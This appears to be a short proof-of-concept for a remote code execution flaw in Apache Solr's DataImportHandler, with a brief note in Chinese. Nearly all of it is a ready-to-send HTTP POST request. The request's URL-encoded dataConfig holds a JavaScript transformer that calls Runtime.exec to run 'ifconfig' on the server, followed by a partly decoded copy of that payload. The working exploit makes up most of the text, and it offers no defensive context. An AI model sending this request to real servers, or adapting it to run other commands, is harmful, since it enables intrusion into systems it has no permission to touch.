 ```
POST /solr/tika/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0a%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0a%3c%64%61%74%61%53%6f%75%72%63%65%20%6e%61%6d%65%3d%22%73%74%72%65%61%6d%73%72%63%22%20%74%79%70%65%3d%22%43%6f%6e%74%65%6e%74%53%74%72%65%61%6d%44%61%74%61%53%6f%75%72%63%65%22%20%6c%6f%67%67%65%72%4c%65%76%65%6c%3d%22%54%52%41%43%45%22%20%2f%3e%0a%0a%20%20%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%0a%20%20%20%20%20%20%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%70%6f%63%28%72%6f%77%29%7b%0a%20%76%61%72%20%62%75%66%52%65%61%64%65%72%20%3d%20%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%69%66%63%6f%6e%66%69%67%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%0a%0a%76%61%72%20%72%65%73%75%6c%74%20%3d%20%5b%5d%3b%0a%0a%77%68%69%6c%65%28%74%72%75%65%29%20%7b%0a%76%61%72%20%6f%6e%65%6c%69%6e%65%20%3d%20%62%75%66%52%65%61%64%65%72%2e%72%65%61%64%4c%69%6e%65%28%29%3b%0a%72%65%73%75%6c%74%2e%70%75%73%68%28%20%6f%6e%65%6c%69%6e%65%20%29%3b%0a%69%66%28%21%6f%6e%65%6c%69%6e%65%29%20%62%72%65%61%6b%3b%0a%7d%0a%0a%72%6f%77%2e%70%75%74%28%22%74%69%74%6c%65%22%2c%72%65%73%75%6c%74%2e%6a%6f%69%6e%28%22%5c%6e%5c%72%22%29%29%3b%0a%72%65%74%75%72%6e%20%72%6f%77%3b%0a%0a%7d%0a%0a%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0a%0a%3c%64%6f%63%75%6d%65%6e%74%3e%0a%20%20%20%20%3c%65%6e%74%69%74%79%0a%20%20%20%20%20%20%20%20%73%74%72%65%61%6d%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%6e%61%6d%65%3d%22%65%6e%74%69%74%79%31%22%0a%20%20%20%20%20%20%20%20%64%61%74%61%73%6f%75%72%63%65%3d%22%73%74%72%65%61%6d%73%72%63%31%22%0a%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0a%20%20%20%20%20%20%20%20%72%6f%6f%74%45%6e%74%69%74%79%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%52%44%46%2f%69%74%65%6d%22%0a%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%73%63%72%69%70%74%3a%70%6f%63%22%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%3c%66%69%65%6c%64%20%63%6f%6c%75%6d%6e%3d%22%74%69%74%6c%65%22%20%78%70%61%74%68%3d%22%2f%52%44%46%2f%69%74%65%6d%2f%74%69%74%6c%65%22%20%2f%3e%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0a%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e%0a%20%20%20%20%0a%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-Length: 212
content-type: multipart/form-data; boundary=------------------------aceb88c2159f183f


--------------------------aceb88c2159f183f
Content-Disposition: form-data; name="stream.body"

<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>

--------------------------aceb88c2159f183f--

```



注意，其中dataConfig的值，URLencode之前为以下字符串
```

<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ifconfig").getInputStream()));

var result = [];

```